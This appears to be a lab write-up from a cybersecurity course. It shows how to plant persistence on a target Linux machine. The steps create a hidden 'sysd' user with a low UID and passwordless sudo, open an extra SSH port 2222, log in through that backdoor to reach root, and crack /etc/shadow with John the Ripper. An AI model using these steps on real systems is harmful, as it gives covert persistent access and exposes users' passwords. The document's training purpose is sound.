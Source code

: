 **Step 1: Shadow People** 

1. Create a secret user named `sysd`. Make sure this user doesn't have a home folder created:
    - `useradd -M sysd`

2. Give your secret user a password: 
    - `passwd sysd`

3. Give your secret user a system UID < 1000:
    - `usermod -u 666 sysd`

4. Give your secret user the same GID:
   - `groupmod -g 666 sysd`

5. Give your secret user full `sudo` access without the need for a password:
   -  `visudo`
 ```bash
   sysd ALL=(ALL) NOPASSWD:ALL
 ```

6. Test that `sudo` access works without your password:

    - `sudo -l`


**Step 2: Smooth Sailing**

1. Edit the `sshd_config` file:

```bash
#       $OpenBSD: sshd_config,v 1.101 2017/03/14 07:19:07 djm Exp $

# This is the sshd server system-wide configuration file.  See
# sshd_config(5) for more information.

# This sshd was compiled with PATH=/usr/bin:/bin:/usr/sbin:/sbin

# The strategy used for options in the default sshd_config shipped with
# OpenSSH is to specify options with their default value where
# possible, but leave them commented.  Uncommented options override the
# default value.

Port 22
Port 2222
#AddressFamily any
#ListenAddress 0.0.0.0
#ListenAddress ::
```

**Step 3: Testing Your Configuration Update**
1. Restart the SSH service:
    - `sudo systemctl restart sshd`

2. Exit the `root` account:
    - `logout`

3. SSH to the target machine using your `sysd` account and port `2222`:
    - `ssh sysd@192.168.6.105 -p 2222`

4. Use `sudo` to switch to the root user:
    - `sudo su root`

**Step 4: Crack All the Passwords**

1. SSH back to the system using your `sysd` account and port `2222`:

    - `ssh sysd@192.168.6.105 -p 2222`

2. Escalate your privileges to the `root` user. Use John to crack the entire `/etc/shadow` file:

    - `john /etc/shadow`

![ripper](/06-Bash-Scripting-and-Programming/screenshots/ripper.png)

